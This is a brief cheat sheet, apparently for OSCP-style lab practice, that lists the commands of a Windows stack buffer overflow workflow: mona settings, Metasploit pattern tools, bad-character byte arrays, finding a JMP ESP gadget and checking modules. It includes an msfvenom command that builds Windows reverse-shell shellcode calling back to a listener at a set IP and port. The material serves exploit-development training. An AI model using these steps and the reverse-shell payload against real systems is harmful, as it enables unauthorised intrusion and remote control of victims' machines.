 # Buffer Overflow

> Shahrukh Tramboo | February 26th, 2022

--------------------------------------

**Mona Configuration**

```bash
!mona config -set workingfolder c:\mona\%p
```

**create pattern**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```


**getting pattern offset**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```
or
```bash
!mona findmsp -distance 600
```

**create a bytearray**

using bpython
```
bytearray(range(1,256))
```

**Finding a Jump Point**

```bash
!mona jmp -r esp -cpb "\x00"
```

**Generate Payload**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.39.185 LPORT=4444 EXITFUNC=thread -b "\x07\x2d\x2e\xa0" -f py -v shellcode
```


**Finding Bad Characters**

```bash
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```bash
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Make a note of the address to which the ESP register points and use it in the following mona command:

```bash
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

**Check modules**
```bash
!mona modules
```

